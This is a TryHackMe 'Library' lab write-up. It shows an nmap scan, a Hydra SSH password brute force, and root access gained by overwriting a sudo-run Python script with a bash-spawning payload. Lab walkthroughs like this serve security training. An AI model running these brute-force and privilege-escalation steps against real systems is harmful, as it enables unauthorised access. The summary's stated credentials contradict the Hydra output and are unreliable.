 ```yaml
---
title: TryHackMe Library
description: Writeup
---
```


## Overview
- **Machine Name:** Library
- **OS:** Linux
- **Difficulty:** Easy

## Summary

SSH brute-force attack was executed using Hydra to gain initial access. An `nmap` scan identified an open SSH port, and Hydra was used to find valid credentials (`user:password123`). After logging in, a privilege escalation was performed by replacing a Python script, which was executed with root privileges, allowing the attacker to gain root access to the system.

## Reconnaissance
### Nmap Scan Results

```java
   1   │ # Nmap 7.94SVN scan initiated Fri Jun 28 16:04:20 2024 as: nmap -sCV --
       │ min-rate=5000 -Pn -vvv -oN targeted 10.10.124.112
   2   │ Nmap scan report for 10.10.124.112
   3   │ Host is up, received user-set (0.064s latency).
   4   │ Scanned at 2024-06-28 16:04:20 CEST for 10s
   5   │ Not shown: 998 closed tcp ports (reset)
   6   │ PORT   STATE SERVICE REASON         VERSION
   7   │ 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ub
       │ untu Linux; protocol 2.0)
   8   │ | ssh-hostkey:
   9   │ |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
  10   │ | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU
       │ 274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZr
       │ yDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv
       │ 15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj
       │ 77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++
       │ vBtCcGwxuD9JZsXu0Cd/5fdisrl
  11   │ |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
  12   │ | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAA
       │ ABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W
       │ 8VdWNQGiyJ5QW2XirHI=
  13   │ |   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
  14   │ |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m86
       │ 3niSGsBDfCN
  15   │ 80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
  16   │ |_http-title: Welcome to  Blog - Library Machine
  17   │ | http-methods:
  18   │ |_  Supported Methods: GET HEAD POST OPTIONS
  19   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
  20   │ | http-robots.txt: 1 disallowed entry
  21   │ |_/
  22   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  23   │
  24   │ Read data files from: /usr/bin/../share/nmap
  25   │ Service detection performed. Please report any incorrect results at htt
       │ ps://nmap.org/submit/ .
  26   │ # Nmap done at Fri Jun 28 16:04:30 2024 -- 1 IP address (1 host up) sca
       │ nned in 10.02 seconds
```

## Exploitation
### Vulnerabilities Exploited

```java
searchsploit OpenSSH 7.2p2
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                                                           | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                                                     | linux/remote/45210.py
OpenSSH 7.2 - Denial of Service                                                                                                    | linux/dos/40888.py
OpenSSH 7.2p2 - Username Enumeration                                                                                               | linux/remote/40136.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation                               | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                                                           | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                                               | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                                              | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
### Exploitation Steps

```java
hydra -t 20 -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.124.112
[DATA] attacking ssh://10.10.124.112:22/
[STATUS] 200.00 tries/min, 200 tries in 00:01h, 14344201 to do in 1195:22h, 18 active
[22][ssh] host: 10.10.124.112   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-28 16:09:45
```

## Post-Exploitation
### Privilege Escalation

In this process, the attacker gains root access by exploiting the ability to execute a Python script with elevated privileges. They first delete any existing script named `bak.py` and then create a new script with a Python command to spawn a bash shell. This script is executed with `sudo`, which runs the script with root privileges, effectively giving the attacker a root shell. Finally, they confirm root access and read the root flag, proving full system control.

```java
rm bak.py
```

```java
echo "python -c 'import pty;pty.spawn("/bin/bash")'" > bak.py
ls
bak.py  user.txt
echo 'import pty;pty.spawn("/bin/bash")' > bak.py
sudo /usr/bin/python3 /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

